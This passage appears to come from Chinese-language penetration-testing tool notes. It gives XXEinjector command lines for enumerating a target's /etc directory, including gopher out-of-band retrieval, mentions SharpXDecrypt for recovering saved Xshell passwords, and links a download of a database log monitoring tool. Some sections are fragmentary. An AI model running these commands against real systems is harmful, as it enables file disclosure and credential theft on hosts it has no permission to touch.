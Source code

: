 ##### 示例

###### 枚举HTTPS应用程序中的/etc目录：

~~~ruby
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt –ssl
~~~

这里--host=192.168.0.2是本地IP地址，--path=/etc是爆破etc目录，--file是包含有效HTTP请求的XML文件，我们通常在burpsuite上直接抓包保存成txt文件，-ssl不用说，--brute爆破文件，这里可以用自己的字典

###### 使用gopher（OOB方法）枚举/etc目录：

~~~
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
~~~

详细见https://www.freebuf.com/column/170971.html



#### jsEncrypter

我们在登录框进行登录时



#### SharpXDecrypt

读xshell7的账号的密码

[![bv8qPg.png](https://s1.ax1x.com/2022/03/15/bv8qPg.png)](https://imgtu.com/i/bv8qPg)



#### 数据库日志监听1.0

> https://pan.baidu.com/share/init?surl=deEqOtUGsbEk_BfoXvRnOQ
>
> zkaq
































